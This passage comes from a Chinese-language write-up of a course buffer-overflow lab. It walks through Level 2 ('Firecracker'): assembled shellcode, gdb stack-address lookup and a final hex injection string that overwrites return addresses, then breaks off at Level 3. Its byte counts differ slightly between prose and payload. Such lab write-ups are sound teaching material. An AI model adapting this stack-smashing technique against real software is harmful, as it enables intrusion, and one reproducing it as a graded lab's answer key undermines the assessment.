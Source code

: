 使用命令将`Level2.s`编译成 `.o` 文件然后使用 `objdump` 命令得到机器码

```shell
thu@ubuntu:~/Desktop/buflab-handout$ gcc -m32 -c Level2.s
Level2.s: Assembler messages:

thu@ubuntu:~/Desktop/buflab-handout$ objdump -d Level2.o
```

```assembly
00000000 <.text>:
   0:	c7 05 0c e1 04 08 42 	movl   $0x20a6c142,0x804e10c
   7:	c1 a6 20 
   a:	c3                   	ret   
```

还得找到`getbuf`的`%ebp`地址

```shell
(gdb) set args -u 2020010563
(gdb) b getbuf
Breakpoint 1 at 0x804928a
(gdb) r
Starting program: /home/thu/Desktop/buflab-handout/bufbomb -u 2020010563
Userid: 2020010563
Cookie: 0x20a6c142

Breakpoint 1, 0x0804928a in getbuf ()

(gdb) print $ebp
$1 = (void *) 0x556830e0 <_reserved+1036512>
```

`buf[0]`的地址为`-0x28(%ebp)`，也就是`0x556830b8`

这一部分代码的注入是在起始位置注入的，共有12字节。此后还需要注入32字节的无关符号`00`。随后，先注入自编代码的地址`b8 30 68 55`，后注入`bang`的地址`82 8b 04 08`。

`-0x4(%ebp)`是getbuf的return address，这里存放了自编代码的地址。执行到这个地方时，这一部分栈帧被清空，`-0x8(%ebp)`成为下一个新的return address，因此可以在这里存放`bang`的地址。这样可以达到先运行自编代码，然后再运行`bang`这样的目的。

**最终答案**

```
/* Level 2: Firecracker 11 byte func, 33 byte 00, 4 byte func addr, 4 byte bang addr */
c7 05 0c e1 04 08 42 c1 a6 20 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 b8 30 68 55 82 8b 04 08
```



## Level 3: Dynamite (20 pts)

> 机器无法发觉的函数返回值修改：
> 修改getbuf()的函数返回值，你的 cookie，但不能影响其正常返回test()。

由上题可以知道，`getbuf`的`%ebp`地址为`0x556830e0`
